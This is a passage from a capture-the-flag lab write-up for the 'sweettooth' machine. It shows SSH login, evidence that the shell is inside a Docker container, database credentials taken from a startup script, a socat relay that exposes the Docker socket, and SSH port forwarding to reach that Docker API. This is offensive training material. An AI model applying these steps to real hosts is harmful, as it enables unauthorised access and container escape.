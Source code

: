   ```sh
  ssh uzJk6Ry98d8C@sweettooth.thm -p 2222
  # this works

  ls -la
  # get user flag

  # we have a random hostname here
  # furthermore, basic commands do not work

  ls -la /
  # we have a .dockerenv file here as well

  cat /proc/1/cgroup
  # this includes 'docker' in paths
  
  # all these clues indicate that we are inside a Docker container

  # we have a few interesting scripts in /
  cat /entrypoint.sh

  cat /initializeandquery.sh
  # from this, we get creds "o5yY6yya:mJjeQ44e2unu"
  # we can try ssh access using these creds
  # but it does not work
  ```

* From the 'initializeandquery.sh' script, we also get this snippet:

  ```sh
  socat TCP-LISTEN:8080,reuseaddr,fork UNIX-CLIENT:/var/run/docker.sock &

  # query each 5 seconds and write docker statistics to database
  while true; do
    curl -o /dev/null -G http://localhost:8086/query?pretty=true --data-urlencode "q=show databases" --data-urlencode "u=o5yY6yya" --data-urlencode "p=mJjeQ44e2unu"
    sleep 5
    response="$(curl localhost:8080/containers/json)"
    containername=`(jq '.[0].Names' <<< "$response") | jq .[0] | grep -Eo "[a-zA-Z]+"`
    status=`jq '.[0].State' <<< "$response"`
    influx -username o5yY6yya -password mJjeQ44e2unu -execute "insert into docker.autogen stats containername=\"$containername\",stats=\"$status\""
  done
  ```

* It seems we have a listener on port 8080, forwarding connections to the Docker socket; the snippet also includes ```curl localhost:8080/containers/json```, which when executed from our SSH session gives us a JSON response for querying Docker containers - this confirms the Docker service running on port 8080

* We can do port forwarding to interact with the Docker services then:

  ```sh
  # to access the Docker service on our port 8000
  ssh uzJk6Ry98d8C@sweettooth.thm -p 2222 -L 8000:localhost:8080
  # using the same creds as previous
  ```
